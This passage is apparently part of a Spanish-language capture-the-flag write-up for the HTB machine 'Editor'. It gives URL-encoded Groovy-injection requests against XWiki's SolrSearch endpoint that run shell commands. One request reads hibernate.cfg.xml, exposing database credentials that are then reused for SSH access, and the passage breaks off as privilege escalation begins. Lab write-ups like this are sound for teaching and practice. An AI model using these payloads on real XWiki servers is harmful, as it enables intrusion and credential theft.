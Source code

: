 aqui veo varios archivos de configuracion que se localizan en el directorio `WEB-INF` asi que vamos a localizar primero el directorio en el sistema

```bash
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22find%20%2F%20-name%20WEB-INF%20-type%20d%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D
```

>>> al acceder al link anterior ejecutamos en el sistema el comando: find / -name WEB-INF -type d

se descarga un archivo que al leerlo podemos ver donde se localiza el directorio

<img width="1920" height="1050" alt="image" src="https://github.com/user-attachments/assets/6af3afe9-a9fa-4a33-a297-981ee31cd769" />

existen 2 directorios en diferentes ubicaciones: `/usr/lib/xwiki/WEB-INF` y `/usr/lib/xwiki-jetty/webapps/root/WEB-INF`

vamos intentar leer directamente el archivo `hibernate.cfg.xml` en la ubicacion `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml` y luego en el segundo directorio a ver si conseguimos credenciales

```bash
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22cat%20%2Fusr%2Flib%2Fxwiki%2FWEB-INF%2Fhibernate.cfg.xml%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D
```
>>> al acceder al link anterior se descarga un archivo con credenciales

<img width="1920" height="1050" alt="image" src="https://github.com/user-attachments/assets/4e39e931-93c3-413f-97e9-a43c596b5e94" />

>>> credenciales: xwiki:theEd1t0rTeam99

como ya sabemos que solo existe un usuario del sistema `oliver`, vamos a testear esa password por `ssh`

```bash
ssh oliver@10.10.11.80
```

<img width="1920" height="882" alt="image" src="https://github.com/user-attachments/assets/ff1c691a-c254-449e-9367-835b87d10cf3" />

>>> Hemos obtenido acceso!

# Escalada de Privilegios

### User oliver

revisando el sistema vemos un puerto inusual que esta en escucha en el localhost

```bash
netstat -tunl
```

<img width="1920" height="335" alt="image" src="https://github.com/user-attachments/assets/5507a7ce-9ac9-483f-b5d6-c3736997a3ca" />

inspeccionamos el puerto
